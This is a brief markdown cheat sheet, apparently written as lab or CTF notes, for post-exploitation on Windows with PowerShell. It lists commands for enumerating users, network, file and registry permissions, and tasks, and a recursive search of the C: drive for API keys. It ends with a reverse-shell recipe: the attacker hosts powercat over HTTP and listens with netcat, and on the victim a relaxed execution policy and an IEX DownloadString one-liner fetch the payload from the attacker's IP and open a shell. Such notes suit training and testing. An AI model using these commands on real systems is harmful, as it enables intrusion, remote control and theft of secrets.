 # Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
- users:
  - Get-LocalUser
  - (Get-LocalUser).Name
  - (Get-LocalUser).Name.Count
  - Get-LocalUser -SID "sid_value"
  - Get-LocalUser | Where-Object -Property PasswordRequired -Match false
  - Get-LocalGroup | measure
- basic networking information:
  - Get-NetIPAddress
  - Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
  - get-nettcpconnection | where {$`_`.state -eq "listen" -and $_.localport -eq 445}
  - Get-NetRoute
  - Get-NetAdapter -Name * -IncludeHidden
  - Get-NetAdapter -Name * -Physical
- file permissions:
  - Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
  - Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
  - Get-Acl C:\ | Format-List
  - Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
- registry permissions:
  - Get-Acl "HKLM:\Software" | Format-List
  - Get-Hotfix
  - Get-Hotfix -Id KB4023834
- scheduled and running tasks:
  - Get-Process
  - Get-ScheduledTask -TaskName * | Format-List
  - Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
  - get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
- insecure files:
  - Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
 
# Reverse Shell

Attacker's Machine:
- git clone https://github.com/besimorhino/powercat && cd powercat
- python3 -m http.server 8080
- nc -lvnp 1337
Victim's Machine:
- Execution Policy:
  - Get-ExecutionPolicy
  - Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
- Download and execute payload:
  - IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep

